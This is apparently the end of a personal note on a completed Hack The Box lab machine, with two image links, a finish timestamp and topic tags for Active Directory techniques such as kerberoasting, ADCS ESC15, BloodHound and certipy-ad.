



---

**Finished 11:03 26-06-2025**

[^Links]: [[Hack The Box]]

#ADCS #kerberoasting #forcechangepassword #BloodHound #ACL #BloodyAD #ESC15 #certipy-ad 
